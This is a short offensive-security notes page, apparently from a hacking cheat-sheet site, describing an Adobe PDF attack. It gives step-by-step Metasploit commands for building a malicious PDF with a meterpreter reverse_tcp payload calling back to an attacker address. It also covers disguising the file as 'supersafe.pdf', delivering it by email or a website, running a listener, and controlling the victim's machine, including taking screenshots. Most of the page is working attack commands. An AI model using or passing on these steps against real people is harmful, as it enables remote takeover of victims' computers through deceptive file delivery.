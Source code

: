 ```yaml
---
title: Adobe PDF Attack
description: Attackers can compromise target machine by sending malicious PDF. 
tags:
    - Network
refs:
    - https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/fileformat/adobe_pdf_embedded_exe
    - https://www.youtube.com/watch?v=xYBsXkxDRh0
date: 2023-07-24
draft: false
---
```


## Exploitation using Metasploit

The PDF created by this process can be easily detected by modern Windows built-in antivirus. So this exploitation may be not useful for attackers.

### 1. Create a PDF

Attackers can create a malicious PDF using metasploit.

```bash
msfconsole

msf> use exploit/windows/fileformat/adobe_pdf_embedded_exe
# Set payload for windows if target machine is windows
msf> set payload windows/x64/meterpreter/reverse_tcp
# Set the attacker's ip address
msf> set lhost 10.0.0.1
# Change filename
msf> set filename supersafe.pdf
# Optionally, the custom PDF can be used
msf> set infilename /path/to/custom.pdf
msf> exploit
```

### 2. Send PDF to Target Machine

After creating a PDF, attackers need to send it to target user. There are various ways to do that. For example, 

- Host the PDF in attacker’s website.
- Send an email with this PDF attached.

### 3. Start Listener in Attacker’s Machine

To receive incoming connection from target machine, attackers start a listener in their machine.

```bash
msf> use exploit/multi/handler
# Match the payload when PDF was created
msf> set payload windows/x64/meterpreter/reverse_tcp
# Set the attacker's ip address
msf> set lhost 10.0.0.1
msf> exploit
```

### 4. Reverse Shell

When a victim open the PDF using Adobe Reader, this file starts a reverse shell to connect the attacker’s machine.  
After that, attackers can control the victim’s machine in their terminal. 

```bash
# In metasploit session

meterpreter> pwd
# Take a screenshot of the victim's screen
meterpreter> screenshot
```
